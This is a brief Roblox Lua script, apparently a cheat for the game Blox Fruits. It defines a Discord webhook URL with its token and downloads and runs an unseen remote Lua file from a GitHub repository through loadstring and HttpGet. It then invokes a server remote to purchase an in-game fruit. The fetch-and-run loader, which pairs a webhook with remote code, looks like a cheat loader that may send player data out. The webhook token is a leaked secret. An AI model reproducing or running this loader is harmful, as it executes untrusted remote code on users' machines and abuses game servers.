 _G.webhooksdiscord = "https://discord.com/api/webhooks/900306070227001365/RmneZgoeLSaaBqRxj88IAw3obM-qgrzSBQu1iKvnHqxwgyHEGggeHhE2iyB_B2i0kg3t
"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
local args = {
    [1] = "PurchaseRawFruit",
    [2] = "Bomb-Bomb"
}

game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer(unpack(args))
